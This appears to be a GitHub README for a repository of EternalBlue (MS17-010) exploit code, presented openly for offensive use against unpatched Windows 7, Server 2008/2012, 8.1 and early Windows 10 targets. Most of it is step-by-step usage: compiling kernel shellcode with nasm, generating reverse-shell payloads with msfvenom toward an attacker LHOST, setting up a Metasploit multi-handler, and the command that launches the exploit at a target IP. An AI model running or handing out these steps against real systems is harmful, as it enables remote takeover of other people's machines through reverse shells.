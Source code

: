 # MS17-010 (ETERNAL BLUE) Exploit Code

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). You may also select between staged and stageless payloads if you wish to avoid utilizing the msfconsole entirely and use netcat/your own shell handler. Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`


## TODO:
1. Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
<YOUR-IP>
LPORT you want x64 to listen on:
<SOME PORT>
LPORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the prompts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
<YOUR-IP>
LPORT for x64 reverse connection:
<SOME PORT>
LPORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run:

`python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>`

This has only been tested on Windows 7/Server 2008, and Windows 10 10240 (x64) 

However the exploit included in this repo also includes the Windows 8/Server 2012 version and *should* work.


The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010

## Targets:

eternalblue_exploit7.py:
```
Windows Server 2008 & R2
Windows Server 2012 & R2 (x86)
Windows Server 2016 (x64)
Windows Vista
Windows 7
```

eternalblue_exploit8.py:
```
Windows 2012 R2 x64
Windows 8.1 x64
Windows 10 Pro Build 10240 x64
```

eternalblue_exploit10.py:
```
Windows 2012 R2 x64
Windows 8.1 x64
Windows 10 Pro Build 10240 x64
```

## Generate Shellcode (Manually):

Assemble kernel shellcode with nasm:
```
nasm -f bin shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
```
Generate a binary payload with venom:
```
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.1.123 --platform windows -a x86 -f raw -o sc_x86_payload.bin
Saved as: sc_x86_payload.bin
```
Concentrate it:
```
cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin
```



## Merging binaries (x86 and x86_64):
```
python shellcode/eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
```

## Setting up listener (Manually):
```
use exploit/multi/handler
set payload windows/shell_reverse_tcp
set LHOST x.x.x.x
set LPORT xxx
exploit -j
```


